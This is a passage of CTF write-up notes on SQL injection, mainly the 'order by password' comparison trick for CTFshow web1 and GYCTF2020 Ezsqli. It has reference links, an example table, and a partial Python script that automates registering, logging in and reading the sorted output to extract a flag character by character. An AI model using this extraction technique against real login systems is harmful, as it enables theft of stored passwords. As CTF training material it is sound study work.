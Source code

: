 ```python
        if str_response.find("GET me password") != -1:
            min = mid
        else:
            max = mid
    flag = flag+chr(max)
```
## sql writeup


### MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

https://yq1ng.github.io/z_post/CTF%E7%A7%80WEB-WP/#CTFshow-web1
https://yq1ng.github.io/z_post/GYCTF2020%E9%83%A8%E5%88%86WEB/#gyctf2020ezsqli
https://www.gem-love.com/ctf/1782.html
https://wp.ctf.show/d/23-ctfshow-web1
https://www.extrader.top/posts/d991f96a/#CTFshow%E2%80%94web1

`select * order by password`

>alag{aaaaa}<flag{a}
>zlag{a}>flag{aaaaaaaaaa}

每次找到下一位, 比如g, index>flag_index，index在flag下面，就能确定上一位是正确的

id|password|uname|uname2
-|-|-|-
3|a|u3|u3
4|f|1|2
5|fl|12|12
2|flag{123123}|u2|un2
6|g|1|1
1|pwd1|u1|un1

```python
import requests
url = "http://a4d72cd7-7807-4122-a971-fde24ee7c838.challenge.ctf.show:8080"
urlreg = url + "/reg.php"  #注册 必须要是可传参php文件
urllogin = url + "/login.php"  #登录 必须要是可传参php文件
urlorder = url + "/user_main.php?order=pwd"  # 显示

s = "-.0123456789:abcdefghijklmnopqrstuvwxyz{|}~"  # 按照ascii码表的字符串大小排序
flag = ""
for i in range(100):
    for j in s:
        exp = ""
        exp = flag + j
        datereg = {
            "username":exp,  # 仔细观察username和password并没有对-和{}进行过滤
            "email":"zzz",
            "nickname":"zzz",
            "password":exp
        }
        datelogin = {
            "username":exp,
            "password":exp
        }
        if (exp == 'flag'):  # 当注册的用户名字为flag的时候，因为已经存在flag用户在，额直接打印flag跳过后面的语句的执行
            flag = 'flag'
            print(flag)
            break
        session = requests.session()  # 保持会话
        reg = session.post(urlreg, datereg)
        login = session.post(urllogin, datelogin)
        a = session.get(urlorder)
        txt = a.text
```
